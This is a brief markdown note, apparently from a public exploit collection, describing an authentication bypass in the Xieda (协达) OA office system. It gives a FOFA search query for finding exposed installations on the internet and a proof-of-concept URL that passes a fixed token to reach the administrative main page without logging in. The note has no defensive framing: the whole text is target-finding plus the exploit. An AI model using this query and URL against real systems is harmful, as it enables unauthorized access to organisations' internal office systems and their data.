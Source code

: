 ## 协达OA系统绕过登录认证登陆后台

## fofa
```
body="/interface/CheckLoginName.jsp"
```

## poc
```
http://ip/stylei/MainPage.jsp?token=YXR-YMD-SYQ-TOKEN
```
